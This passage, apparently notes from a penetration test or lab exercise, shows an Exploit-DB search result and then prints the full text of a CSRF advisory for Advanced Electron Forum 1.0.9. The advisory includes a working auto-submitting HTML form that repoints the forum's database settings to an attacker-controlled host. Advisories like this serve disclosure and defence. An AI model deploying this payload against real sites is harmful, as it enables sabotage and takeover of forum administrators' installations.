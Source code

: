```
Advanced Electron Forum 1.0.9 - Remote File Inclusion / Cross-Site Request Forgery    | php/webapps/39263.txt
-------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

`cp /usr/share/exploitdb/exploits/php/webapps/39261.txt ./`

`cat ./39261.txt`:
```
[+] Credits: hyp3rlinx
[+] Website: hyp3rlinx.altervista.org
[+] Source:  http://hyp3rlinx.altervista.org/advisories/AEF-CSRF.txt

Vendor:
=============================
www.anelectron.com/downloads/

Product:
====================================
Advanced Electron Forum v1.0.9 (AEF)
Exploit patched current version.

Vulnerability Type:
===================
CSRF

CVE Reference:
==============
N/A

Vulnerability Details:
=====================
In Admin panel no CSRF protections exist in multiple areas allowing remote
attackers to make HTTP request on behalf of the victim if they
currently have a valid session (logged in) and visit or click an infected
link, resulting in some of the following destructions.

0x01: Change current database settings
0x02: Delete all Inbox / Sent Emails
0x03: Delete all 'shouts'
0x04: Delete all Topics

by the way, edit profile, avatar and more all seem vulnerable as well..


Exploit code(s):
===============
CSRF 0x01:

change mysql db settings📌
note: however you will need to know or guess the database name.📌

<form📌 id="DOOM" accept-charset="ISO-8859-1" action="
http://localhost/AEF(1.0.9)_Install/index.php?act=admin&adact=conpan&seadact=mysqlset"
method="post" name="mysqlsetform">
<input type="hidden" name="server" value="hyp3rlinx.altervista.org" />
<input type="hidden" name="user" value="hyp3rlinx" />
<input type="hidden" name="password" value="DESTROYED" />
<input type="hidden" name="database" value="AEF" />📌
<input type="hidden" name="dbprefix" value="aef_" />
<script>document.getElementById('DOOM').submit()</script>📌
</form>
```